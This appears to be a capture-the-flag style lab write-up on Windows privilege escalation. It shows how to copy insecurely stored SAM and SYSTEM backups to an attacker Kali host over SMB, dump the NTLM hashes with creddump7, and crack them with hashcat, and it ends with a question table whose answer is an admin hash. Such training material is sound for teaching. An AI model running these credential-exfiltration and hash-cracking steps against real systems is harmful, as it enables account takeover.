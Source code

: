 The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the C:\Windows\Repair\ directory.

Transfer the SAM and SYSTEM files to your Kali VM:

```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\   copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:

```
git clone https://github.com/Tib3rius/creddump7   pip3 install pycrypto   python3 creddump7/pwdump.py SYSTEM SAM
```

Crack the admin NTLM hash using hashcat:

```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

You can use the cracked password to log in as the admin using winexe or RDP.

Answer the questions below

| Question                                 | Answer                           |
| ---------------------------------------- | -------------------------------- |
| What is the NTLM hash of the admin user? | a9fdfa038c4b75ebc76dc855dd74f0da |
